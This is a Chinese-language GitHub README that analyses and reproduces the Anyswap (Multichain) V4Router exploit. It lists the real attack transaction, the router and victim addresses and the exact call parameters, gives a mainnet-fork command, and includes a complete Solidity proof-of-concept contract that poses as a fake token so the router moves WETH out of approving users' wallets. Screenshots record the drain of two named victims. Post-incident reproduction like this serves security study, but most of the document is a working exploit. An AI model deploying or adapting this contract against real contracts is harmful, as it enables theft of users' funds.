 # Anyswap_Vul_Poc
Anyswap aka Multichain V4Router 攻击事件的分析和复现


### 攻击交易

```
0xd07c0f40eec44f7674dddf617cbdec4758f258b531e99b18b8ee3b3b95885e7d
```

### 块高度

```
14028474
```


### 相关地址

{
    "0x6b7a87899490ece95443e979ca9485cbe7e71522": "AnyswapV4Router",
    "0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2": "WETH",
    "0x0000000000000000000000000000000000000000": "0x0000...0000"
    "0x5136e623126d3572933fbafe59ae97f13dd9687a": "Innoncent User1",
    "0xa8a83c0a6fabadf21dbb1da1d9b24455c56f5573": "Innoncent User2"
}

### 攻击步骤

1. 攻击合约调用`AnyswapV4Router`的`anySwapOutUnderlyingWithPermit`函数,传入参数：
    1. 受害者地址
    2. 虚假的Token地址
    3. 攻击者的EOA地址
    4. amount=200000000000000000
    5. deadline=100000000000000000000
    6. v=0
    7. r=0x0000000000000000000000000000000000000000000000000000000000000000
    8. s=0x0000000000000000000000000000000000000000000000000000000000000000
    9. toChainID=56

2. 第一步会导致`AnyswapV4Router`调用虚假Token的`underlying()`函数, 虚假Token的返回值为：
    1. WETH的地址


3. 第一步中`AnyswapV4Router`还会调用虚假Token的`depositVault()`函数, 虚假Token的返回值为：
    1. 1


4. 第一步`AnyswapV4Router`最后会调用虚假Token的`burn()`函数, 虚假Token的返回值为：
    1. true

5. 绕过各种校验后, AnyswapV4Router把`WETH`从受害人的账户转入攻击者的EOA地址


### 复现方法

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@14028473  -l 4294967295
```

* 部署攻击合约

```js

// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface AnyswapV4Router {

    function anySwapOutUnderlyingWithPermit(
        address from,
        address token,
        address to,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        uint256 toChainID
    ) external;
    
}

interface WBNB {

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);

    function transfer(address dst, uint256 wad) external returns (bool);

}



contract poc{

    address AnyswapV4Router_Address = 0x6b7a87899490EcE95443e979cA9485CBE7E71522;

    address WBNB_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function attack(address innocent_user, uint256 amount) public{

        AnyswapV4Router(AnyswapV4Router_Address).anySwapOutUnderlyingWithPermit(innocent_user,address(this),msg.sender,amount,100000000000000000000,0,"0x","0x",56);

        WBNB(WBNB_Address).transfer(msg.sender, amount);

    }


    function burn(address from, uint256 amount) external returns (bool){
        return true;
    }

    function depositVault(uint amount, address to) external returns (uint){
        return 1;
    }


    function underlying() external view returns (address){
        return WBNB_Address;
    }

}


```

* 查询第一个受害者有多少`WETH`

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/innocent_user_1.png)

该用户`0x5136e623126d3572933fbafe59ae97f13dd9687a`有大概5.7个`WETH`

* 调用POC合约的`attack`函数, 传入第一个受害人的地址和数量

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/attack_1.png)


![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/after.png)

* 查询第二个受害者有多少`WETH`

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/innocent_user_2.png)

该用户`0xa8a83c0a6fabadf21dbb1da1d9b24455c56f5573`刚好有3个`WETH`, 并且之前与`Anyswap`交互过

* 同样的操作

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/attack_2.png)


![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/after_attack_2.png)

